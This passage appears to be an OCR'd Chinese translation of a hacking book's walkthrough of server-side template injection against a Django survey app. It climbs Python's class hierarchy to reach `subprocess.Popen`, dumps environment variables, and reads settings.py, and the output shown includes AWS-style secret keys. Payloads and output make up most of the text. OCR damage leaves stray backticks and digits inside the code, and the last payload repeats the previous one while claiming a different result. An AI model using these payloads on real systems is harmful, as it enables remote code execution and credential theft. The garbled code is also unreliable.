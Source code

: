 我们继续沿着继承链向上爬升，将`__base__`添加到有效载荷中，直到到达最顶层的 Python 对象 1——所有类的父类：`object`。`object`类本身没有任何用处，但像所有其他类一样，它也包含对其子类的引用。因此，在沿着链向上爬升后，现在是时候使用`__subclasses__`方法向下爬升了：

```
# Payload

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__`.__subclasses__()`}}...

[<class 'type'>,
 <class 'dict_values'>,
 <class 'django.core.handlers.wsgi.LimitedStream'>,
 <class 'urllib.request.OpenerDirector'>,
 <class '_frozen_importlib._ModuleLock'>,
 <class 'subprocess.Popen'>,1
`--snip--`
 <class 'django.contrib.auth.models.AbstractUser.Meta'>,
]
```

超过 300 个类出现在这里。这些是所有直接从`object`类继承并由当前 Python 解释器加载的类。

我希望你已经注意到`subprocess.Popen`类 1！这是用于执行系统命令的类。我们可以立即在这里调用该对象，通过引用它在子类列表中的偏移量，在这个特定情况下它是第 282 个（通过手动计数得出的）。我们可以使用`communicate`方法捕获`env`命令的输出：

```
# Payload

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()
`282.communicate()[0]`}}...

A couple of seconds later, we receive an email spilling out the environment variables of
the Python process running on the machine:
PWD=/opt/`django`/surveysapp
PYTHON_GET_PIP_SHA256=8d412752ae26b46a39a201ec618ef9ef7656c5b2d8529cdcbe60cd70dc94f40c
KUBERNETES_SERVICE_PORT_HTTPS=443
HOME=/root
`--snip--`
```

我们刚刚实现了任意代码执行！让我们看看我们能用什么。所有 Django 设置通常都在一个名为*settings.py*的文件中声明，该文件位于应用程序的根目录。这个文件可以包含从简单的管理员电子邮件声明到秘密 API 密钥的任何内容。从环境变量中我们知道应用程序的完整路径是*/opt/Django/surveysapp*，而*settings*文件通常位于该路径下一级目录（同名）。在列表 6-1 中，我们尝试访问它。

```
# Payload

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()
282.communicate()[0]}}...

BASE_DIR = os.path.dirname(os.path.dirname(os.path.abspath(__file__)))
SERVER_EMAIL = "no-replay@sureveysandstats.com"
SES_RO_ACCESSKEY = "AKIA44ZRK6WSSKDSKJPV" 1
SES_RO_SECRETKEY = "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" 2
`--snip--`
```
